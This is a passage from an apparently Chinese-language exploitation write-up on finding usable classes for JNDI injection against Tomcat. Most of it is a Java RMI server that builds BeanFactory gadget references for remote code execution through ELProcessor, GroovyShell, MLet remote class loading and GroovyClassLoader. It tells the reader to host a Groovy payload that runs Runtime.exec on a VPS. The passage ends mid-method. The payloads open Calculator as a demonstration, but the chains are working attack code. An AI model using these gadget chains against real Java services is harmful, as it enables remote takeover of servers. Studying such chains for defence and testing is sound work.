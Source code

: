 0x06 找到可用类
==========

在上面众多的可用类中逐一进行类检索,最后可以找到`org.yaml.snakeyaml.Yaml#load(java.lang.String)`已载入项目中, 使用这个Yaml的load方法完成RCE(使用该方法需要使用项目额外生成一个.jar包: <https://github.com/artsploit/yaml-payload>)

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.Naming;
import java.rmi.registry.LocateRegistry;

public class RMIServer {
    private static ResourceRef eLProcessor(){
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "",
                true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "x=eval"));
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/bash','-c','/Applications/Calculator.app/Contents/MacOS/Calculator']).start()\")"));
        System.out.println("请检查当前项目是否存在javax.el.ELProcessor#eval");
        return ref;
    }

    private static ResourceRef groovyShell(){
        ResourceRef ref = new ResourceRef("\"groovy.bugs.Autobox.Util.printByte(\\\"1\\\", Byte.valueOf((byte)1));\"", null, "", "",
                true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "x=evaluate"));
//        ref.add(new StringRefAddr("x", "Runtime.getRuntime().exec(\"calc\");"));
        ref.add(new StringRefAddr("x", "groovy.bugs.Autobox.Util.printByte(\"1\", Byte.valueOf((byte)1));"));
        System.out.println("请检查当前项目是否存在groovy.lang.GroovyShell#evaluate");
        return ref;
    }

    private static ResourceRef tomcatMLet() {
        ResourceRef ref = new ResourceRef("javax.management.loading.MLet", null, "", "",
                true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "a=loadClass,b=addURL,c=loadClass"));
        ref.add(new StringRefAddr("a", "javax.el.ELProcessor"));
        ref.add(new StringRefAddr("b", "http://127.0.0.1:2333/"));
        ref.add(new StringRefAddr("c", "Exploit"));
        System.out.println("请检查当前项目是否存在javax.management.loading.MLet");
        return ref;
    }

    private static ResourceRef tomcatGroovyClassLoader() {
        ResourceRef ref = new ResourceRef("groovy.lang.GroovyClassLoader", null, "", "",
                true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "a=addClasspath,b=loadClass"));
        ref.add(new StringRefAddr("a", "http://127.0.0.1/"));
        ref.add(new StringRefAddr("b", "blue"));
        System.out.println("请检查当前项目是否存在groovy.lang.GroovyClassLoader#loadClass");
        System.out.println("在vps的Server服务挂上一个blue.groovy文件,内容如下:");
        System.out.println("@groovy.transform.ASTTest(value={assert Runtime.getRuntime().exec(\"calc\")})class Person{}");
        return ref;
    }

    private static ResourceRef tomcat_snakeyaml(){
        ResourceRef ref = new ResourceRef("org.yaml.snakeyaml.Yaml", null, "", "",
                true, "org.apache.naming.factory.BeanFactory", null);
```